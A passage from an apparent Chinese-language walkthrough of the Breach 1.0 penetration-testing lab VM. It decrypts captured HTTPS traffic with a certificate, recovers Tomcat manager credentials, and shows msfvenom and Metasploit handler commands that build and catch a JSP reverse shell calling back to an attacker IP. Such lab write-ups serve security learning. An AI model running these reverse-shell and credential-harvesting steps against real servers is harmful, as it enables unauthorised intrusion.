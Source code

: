 ![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-8.png)

4、将.p12证书导入Wireshark

.p12证书存储在C盘根目录，将证书导入Wireshark：在Wireshark中打开_SSL_test_phase1.pcap流量包文件，选择菜单：编辑--首选项--Protocols--SSL，点击右边的Edit：输入：192.168.110.140 8443 http 点击选择证书文件 输入密码tomcat

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-10.png)

### 得到tomcat后台URL和密码

1、导入证书后，成功解密https流量，查看流量包

a.一个`Unauthorized`的认证包；b.攻击者上传了两张图片，疑似图片马，但是命令马无法直接访问，需要登录tomcat后台；c.有cmd命令马执行了id命令。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-14.png)

2、获得Tomcat后台登录地址和用户名密码

通过上面发现的一个Unauthorized的认证包，该request和response包含了Tomcat后台的登录地址：`https://192.168.110.140:8443/_M@nag3Me/html`因为状态码为200，进一步发现包含登录用户名密码的数据包， 采用http basic认证，认证数据包为：Basic dG9tY2F0OlR0XDVEOEYoIyEqdT1HKTRtN3pC
Tomcat后台登录用户名：tomcat，密码：Tt\5D8F(#!*u=G)4m7zB

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-12.png)

3、登录tomcat

访问上面的登录地址发现无法访问

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-13.png)

这里是因为浏览器不具备相应的证书所导致的，这里可以用burp代理拦截，然后放包访问，因为burp具备各种证书。也可以在浏览器中进入about:config并添加字符串security.tls.insecure_fallback_hosts 192.168.110.140，便可成功访问。这里我推荐后者，因为每次操作都要放包太麻烦了。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-16.png)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-17.png)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-15.png)

### ‘养马场’Tomcat后台getshell

 Tomcat后台get shell的标准姿势：上养马场，准备好jsp版本的各种马，然后上传连接。

1、这里我直接用kali的msfvenom生成反弹shell的zhiji.war，然后再将自己的祖传jspspy大马添加进去，然后将zhijiya.war包上传部署即可

```shell
msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.110.128 lport=8989 -f war -o zhijiya.war 
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Breach1.0-32.png)

2、开启监听

```shell
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp 
set lhost 192.168.110.128
set lport 8989
run
```
